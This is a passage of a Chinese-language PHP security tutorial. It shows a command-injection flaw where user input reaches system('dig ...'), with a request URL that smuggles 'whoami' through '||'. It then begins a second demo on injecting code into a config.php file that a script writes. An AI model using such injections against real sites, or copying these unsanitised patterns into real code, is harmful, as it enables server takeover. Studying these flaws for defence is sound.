 ```
          system ("dig @$ns $host $query_type");
          echo '</pre>';
    } else {
?>

```

如果我们请求

```
dig.php?ns=whoam&host=sirgod.net&query_type=NS&status=digging 
```

明显`system ("dig whoami sirgod.com NS");` 是不能执行的

所以我们用“||”分别执行 linux 命令

```
dig.php?ns=||whoami||&host=sirgod.net&query_type=NS&status=digging

system ("dig ||whoami|| sirgod.net NS"); 
```

那么我们就分离了 dig 命令和 whoami 成功执行

**Demo #2 配置信息保存不当的 RCE**

很多时候 php 的配置信息是直接保存在.php 后缀的文件里面的 比如 discuz 如果没有认真过滤…

```
  if(isset($action) && $action == "setconfig") {
    $config_file = "config.php";
    $handle = fopen($config_file, 'w');
    $StringData = "<?php\r
    $"."news_width = '".clean($_POST[news_width])."';\r
    $"."bgcolor = '".clean($_POST[bgcolor])."';\r
    $"."fgcolor = '".clean($_POST[fgcolor])."';\r
    $"."padding = '".clean($_POST[padding])."';\r
    $"."subject_margin = '".clean($_POST[subject_margin])."';\r
    $"."fontname = '".clean($_POST[fontname])."';\r
    $"."fontsize = '".clean($_POST[fontsize])."';\r\n?>";
    fwrite($handle, $StringData);
  }

```

那么如果正常提交 就是

```
<?php 
$news_width = '600px'; 
$bgcolor = '#000000';
$fgcolor = '#ffffff'; 
$padding = '5px'; 
$subject_margin = '0px'; 
$fontname = 'verdana'; 
$fontsize = '13px'; 
?>

```
